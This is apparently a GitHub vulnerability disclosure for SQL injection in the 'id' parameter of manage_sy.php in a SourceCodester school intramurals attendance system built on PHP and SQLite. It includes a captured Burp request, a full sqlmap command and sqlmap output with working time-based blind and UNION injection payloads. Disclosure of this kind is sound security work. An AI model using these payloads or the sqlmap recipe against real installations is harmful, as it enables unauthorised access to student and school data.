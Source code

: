 # School Intramurals - Student Attendance Management System - SQL Injection
+ **Exploit Title:** School Intramurals - Student Attendance Management System - SQL Injection
+ **Exploit Author:** G_GX
+ **Vendor Homepage:** https://www.sourcecodester.com/php/15920/school-intramurals-student-attendance-management-system-using-php-and-sqlite.html
+ **Software Link:** https://www.sourcecodester.com/download-code?nid=15920&title=School+Intramurals+-+Student+Attendance+Management+System+using+PHP+and+SQLite#google_vignette
+ **Version:** V1.0
+ **Tested on:** Kali Linux + PHP 8.2.12, Apache 2.4.58

## Description:
Student Attendance Management System allows SQL Injection via the 'id' parameter at "http://127.0.0.1/intrams_sams/manage_sy.php?id=1". 
Exploiting this issue could allow an attacker to compromise the application, access or modify data, or exploit the latest vulnerabilities in the underlying database.

## Proof of Concept:
+ Go to this address: "http://127.0.0.1/intrams_sams/manage_sy.php?id=1"
+ Click view button.
+ Capture the request via Burp Suite and send it to the Repeater.
+ Copy the request and paste it into an "r.txt" file.
+ Captured Burp request:

```
GET /intrams_sams/manage_sy.php?id=1 HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: PHPSESSID=0ksd75n2r2eu1n5fahs4hoopmu
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
X-Forwarded-For: 192.168.1.23
Priority: u=1
```
+ Use sqlmap to exploit. In sqlmap, use 'id' parameter to dump the database.
```
sqlmap -r r.txt -p id --risk 3 --level 5 --dbms mysql --proxy="http://127.0.0.1:8080" --batch --current-db
```
```
---
Parameter: id (GET)
    Type: time-based blind
    Title: SQLite > 2.0 OR time-based blind (heavy query)
    Payload: id=1' OR 7146=LIKE(CHAR(65,66,67,68,69,70,71),UPPER(HEX(RANDOMBLOB(500000000/2))))-- HwjW

    Type: UNION query
    Title: Generic UNION query (NULL) - 4 columns
    Payload: id=1' UNION ALL SELECT CHAR(113,122,106,113,113)||CHAR(107,83,104,76,84,106,111,77,119,79,65,79,108,118,87,88,86,106,70,101,115,118,112,113,101,68,77,106,103,84,110,99,84,103,110,70,73,98,87,78)||CHAR(113,106,113,112,113),NULL,NULL,NULL-- zjTZ
---
[14:05:28] [INFO] the back-end DBMS is SQLite
web application technology: Apache 2.4.58, PHP 8.2.12
back-end DBMS: SQLite
```
+ The current database is sqlite.

![image](https://github.com/GAO-UNO/cve/assets/131429880/a744ede4-9e24-453c-ac6e-f2ec1d442cf8)
